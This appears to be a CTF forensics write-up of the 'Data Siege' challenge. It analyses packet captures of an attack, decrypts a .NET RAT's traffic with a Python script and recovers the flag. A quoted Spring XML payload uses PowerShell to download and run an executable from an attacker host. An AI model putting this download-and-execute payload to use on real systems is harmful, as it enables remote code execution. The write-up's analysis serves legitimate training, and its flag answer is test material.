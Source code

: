 ```yaml
---
layout: load_md
title: The White Circle | Cyber Apocalypse 2024 | Data Siege Writeup
desc: "The White Circle is a community for Cyber/Information Security students, enthusiasts and professionals. You can discuss anything related to Security, share your knowledge with others, get help when you need it and proceed further in your journey with amazing people from all over the world."
image: images/twc_og_banner.jpg
ctf: Cyber Apocalypse 2024
parent: cyber_apocalypse_2024
category: forensics
challenge: Data Siege
tags: "forensics, twh, pcap, powershell, tshark, dotnet, python, aes, encryption"
date: 2024-03-16T00:00:00+00:00
last_modified_at: 2024-03-16T00:00:00+00:00
---
```


<h1 class="heading card-title white-text">Cyber Apocalypse 2024</h1>

## Data Siege
> Solved by : thewhiteh4t

```
We need to understand which data has been obtained from this attack to reclaim control of the and communication backbone. Note: flag is splitted in three parts.
```

- We need to look for exfiltrated data
- flag is split in three parts
- We have a PCAP file
- After analysis we can find an interesting frame :

```xml
    GET /nBISC4YJKs7j4I HTTP/1.1
    Cache-Control: no-cache
    Pragma: no-cache
    User-Agent: Java/11.0.19
    Host: 10.10.10.21:8080
    Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
    Connection: keep-alive
    
    HTTP/1.1 200 OK
    Content-Type: application/xml
    Connection: Keep-Alive
    Pragma: no-cache
    Server: Apache
    Content-Length: 651
    
    <?xml version="1.0" encoding="UTF-8"?>
    <beans xmlns="http://www.springframework.org/schema/beans" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="WHgLtpJX" class="java.lang.ProcessBuilder" init-method="start">
      <constructor-arg>
        <list>
          <value>cmd.exe</value>
          <value>/c</value>
          <value><![CDATA[powershell Invoke-WebRequest 'http://10.10.10.21:8000/aQ4caZ.exe' -OutFile 'C:\temp\aQ4caZ.exe'; Start-Process 'c:\temp\aQ4caZ.exe']]></value>
        </list>
      </constructor-arg>
    </bean>
    </beans>
```

- Command execution where its downloading an `exe` file and running it with `PowerShell`
- Next thing we can extract the exe by exporting HTTP objects
- It’s a .NET executable so it can be decompiled easily using https://www.decompiler.com/
- EZRAClient/Program.cs
```c#
    Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(encryptKey, new byte[13]
    {
        86, 101, 114, 121, 95, 83, 51, 99, 114, 51,
        116, 95, 83
    });
    
    Very_S3cr3t_S
```
- Converting ASCII values to text gives us an interesting string, this is the IV for AES
- multiple TCP packets have data field which contain encrypted strings which can be extracted using `tshark` :

```
> tshark -T fields -e data -r capture.pcap > data.txt
```

- Now let’s look at decryption process
- `EZRATclient.Utils/Constantes.cs` contains the encryption key

`private static string _encryptKey = "VYAemVeO3zUDTL6N62kVA";`

- Decrypt function is present in `Program.cs` :

```c#
    public static string Decrypt(string cipherText)
            {
                    try
                    {
                            string encryptKey = Constantes.EncryptKey;
                            byte[] array = Convert.FromBase64String(cipherText);
                            using (Aes aes = Aes.Create())
                            {
                                    Rfc2898DeriveBytes rfc2898DeriveBytes = new Rfc2898DeriveBytes(encryptKey, new byte[13]
                                    {
                                            86, 101, 114, 121, 95, 83, 51, 99, 114, 51,
                                            116, 95, 83
                                    });
                                    aes.Key = rfc2898DeriveBytes.GetBytes(32);
                                    aes.IV = rfc2898DeriveBytes.GetBytes(16);
                                    using MemoryStream memoryStream = new MemoryStream();
                                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, aes.CreateDecryptor(), CryptoStreamMode.Write))
                                    {
                                            cryptoStream.Write(array, 0, array.Length);
                                            cryptoStream.Close();
                                    }
                                    cipherText = Encoding.Default.GetString(memoryStream.ToArray());
                            }
                            return cipherText;
                    }
                    catch (Exception ex)
                    {
                            Console.WriteLine(ex.Message);
                            Console.WriteLine("Cipher Text: " + cipherText);
                            return "error";
                    }
            }
```

- We have the IV and encryption key, python script for decryption :

```python
    #!/usr/bin/env python3
    
    import binascii
    from base64 import b64decode
    from Crypto.Cipher import AES
    from Crypto.Util.Padding import unpad
    from Crypto.Protocol.KDF import PBKDF2
    
    with open('data.txt') as datafile:
            hex_lines = datafile.readlines()
    
    
    def derive_key_and_iv(password, salt):
            key_iv_bytes = PBKDF2(password, salt, dkLen=48)
            key = key_iv_bytes[:32]
            iv = key_iv_bytes[32:]
            return key, iv
    
    
    encryption_key = "VYAemVeO3zUDTL6N62kVA"
    salt = 'Very_S3cr3t_S'
    key, iv = derive_key_and_iv(encryption_key.encode(), salt)
    
    
    def decrypt(cipher_text, key, iv):
            cipher_text = b64decode(cipher_text)
            cipher = AES.new(key, AES.MODE_CBC, iv)
            decoded_msg = unpad(cipher.decrypt(cipher_text), AES.block_size).decode()
            return decoded_msg
    
    
    for hex_line in hex_lines:
            if len(hex_line) > 3:
                    enc_cipher_text = binascii.unhexlify(hex_line.strip()).replace(b'24\xa7', b'').replace(b'88\xa7', b'').replace(b'44\xa7', b'').replace(b'64\xa7', b'').replace(b'620\xa7', b'')
                    # print('-->', binascii.unhexlify(hex_line.strip()))
                    try:
                            print(decrypt(enc_cipher_text, key, iv))
                    except Exception:
                            pass
```

![](https://i.imgur.com/tSmJrRQ.png)


- We get first and second parts of the flag in the decrypted data :
```
-> HTB{c0mmun1c4710n5
-> _h45_b33n_r357
```
- Third part was easier as its present in the PCAP
- One of the frames is not encrypted and its a `PowerShell` command :


![](https://i.imgur.com/pY3xCRo.png)

- We can decode the payload to get the third part of the flag


![](https://i.imgur.com/SZX8tPa.png)

```
-> HTB{c0mmun1c4710n5
-> _h45_b33n_r357
-> 0r3d_1n_7h3_h34dqu4r73r5}

HTB{c0mmun1c4710n5_h45_b33n_r3570r3d_1n_7h3_h34dqu4r73r5}
```

